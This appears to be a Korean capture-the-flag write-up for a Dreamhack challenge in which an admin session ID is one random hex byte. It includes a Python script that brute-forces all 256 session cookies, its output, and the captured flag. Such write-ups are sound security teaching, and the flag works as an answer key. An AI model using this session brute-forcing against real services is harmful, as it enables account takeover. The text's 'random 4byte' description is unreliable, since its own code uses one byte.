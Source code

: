 ## session

> 문제 URL: https://dreamhack.io/wargame/challenges/266  
> 쿠키와 세션으로 인증 상태를 관리하는 간단한 로그인 서비스입니다. admin 계정으로 로그인에 성공하면 플래그를 획득할 수 있습니다.

### Solve

1. `app.py` 소스코드에서, 아래 내용은 `admin` 세션이 `os.urandom(1).hex()`의 랜덤한 값에 따라 `session_storage`에 저장됨을 알 수 있음

```python
if __name__ == '__main__':
    import os
    session_storage[os.urandom(1).hex()] = 'admin'
    print(session_storage)
    app.run(host='0.0.0.0', port=8000)
```

2. `solve.py`를 통해, 랜덤한 4byte 값을 생성해서 `admin`에 할당된 hex 값을 알아냄

```python
import requests

# 서버 URL
url = 'http://host1.dreamhack.games:17956/'

# 세션 ID는 00부터 ff까지 순차적으로 시도
for i in range(256):  # 0부터 255까지 반복 (16진수로 00부터 ff까지)
    session_id = format(i, '02x')
    cookies = {'sessionid': session_id}

    # GET 요청 보내기
    response = requests.get(url, cookies=cookies)

    # 응답 내용 출력 (로그 확인용)
    if 'flag is' in response.text:
        print(f"Found admin session! Session ID: {session_id}")
        print(response.text)
        break
```

3. `solve.py` 실행 결과

```bash
TIL\250211>python ./solve.py
Found admin session! Session ID: f3
```

```html
<!DOCTYPE html>
<html>
  <head>
    <link rel="stylesheet" href="/static/css/bootstrap.min.css" />
    <link rel="stylesheet" href="/static/css/bootstrap-theme.min.css" />
    <link rel="stylesheet" href="/static/css/non-responsive.css" />
    <title>Index Session</title>

    <style type="text/css">
      .important {
        color: #336699;
      }
    </style>
  </head>
  <body>
    <!-- Fixed navbar -->
    <nav class="navbar navbar-default navbar-fixed-top">
      <div class="container">
        <div class="navbar-header">
          <a class="navbar-brand" href="/">Session</a>
        </div>
        <div id="navbar">
          <ul class="nav navbar-nav">
            <li><a href="/">Home</a></li>
            <li><a href="#">About</a></li>
          </ul>

          <ul class="nav navbar-nav navbar-right">
            <li><a href="/login">Login</a></li>
          </ul>
        </div>
        <!--/.nav-collapse -->
      </div>
    </nav>
    <!--
      # default account: guest/guest
    -->
    <div class="container">
      <p class="important">Welcome !</p>

      <h3>Hello admin, flag is DH{73b3a0ebf47fd6f68ce623853c1d4f138ad91712}</h3>
    </div>
    <!-- /container -->

    <!-- Bootstrap core JavaScript -->
    <script src="/static/js/jquery.min.js"></script>
    <script src="/static/js/bootstrap.min.js"></script>
  </body>
</html>
```
